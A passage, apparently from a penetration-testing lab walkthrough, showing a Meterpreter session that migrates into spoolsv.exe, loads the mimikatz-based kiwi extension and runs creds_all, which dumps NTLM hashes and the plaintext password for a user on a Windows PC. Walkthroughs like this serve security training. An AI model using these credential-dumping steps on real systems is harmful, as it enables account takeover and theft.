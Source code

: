 ```plain text
meterpreter > pgrep spoolsv.exe
1272
meterpreter > migrate 1272
[*] Migrating from 3468 to 1272...
[*] Migration completed successfully.
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```

Now, you grab all the passwords.

```plain text
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Cathy     Cathy-PC 85971f9ab438ab5e970d34a7150963a7  4290ea8ed103c15ba8855990137f4626  91b98e3b3dee2ca23dbf9d1d47b5bd530ca67bfe

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
CATHY-PC$ WORKGROUP  (null)
Cathy     Cathy-PC    sunshine12

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Cathy     Cathy-PC sunshine12

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Cathy     Cathy-PC   sunshine12
cathy-pc$ WORKGROUP  (null)
```
